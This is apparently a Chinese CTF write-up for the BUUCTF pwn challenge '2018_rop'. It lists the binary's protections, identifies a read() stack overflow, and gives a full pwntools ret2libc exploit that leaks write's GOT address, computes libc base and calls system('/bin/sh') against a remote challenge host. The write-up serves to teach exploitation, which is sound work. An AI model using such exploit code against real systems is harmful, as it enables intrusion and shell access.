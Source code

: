 # 知识点

ret2libc



# 题目分析

1. 检查保护情况，32位程序，开启NX保护。

   ```bash
   Arch:     i386-32-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x8048000)
   ```

2. 拖入IDA分析，执行漏洞函数，存在read函数栈溢出漏洞。

   ![ida1](./isset/ida1.png)

3. 没有提供后门函数，提供了write函数，泄露write函数的got表地址，然后ret2libc即可。



# EXP

```python
from pwn import *

context(arch = 'i386', os = 'linux', log_level = 'debug')

io = process('./2018_rop')
io = remote('node4.buuoj.cn', '29434')
elf = ELF('./2018_rop')
libc = ELF('./libc-2.27.so')

main = elf.sym['_start']
write_plt = elf.plt['write']
write_got = elf.got['write']

# leak write
payload = 'A' * 0x88 + 'dead' + p32(write_plt) + p32(main) + p32(1) + p32(write_got) + p32(4)
io.send(payload)
write_real = u32(io.recv(4))
success('write_real = ' + hex(write_real))

# libc
libc_base = write_real - libc.sym['write']
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh\x00').next()

# ret2libc
payload = 'A' * 0x88 + 'dead' + p32(system) + p32(0) + p32(binsh)
io.send(payload)

io.interactive()
```

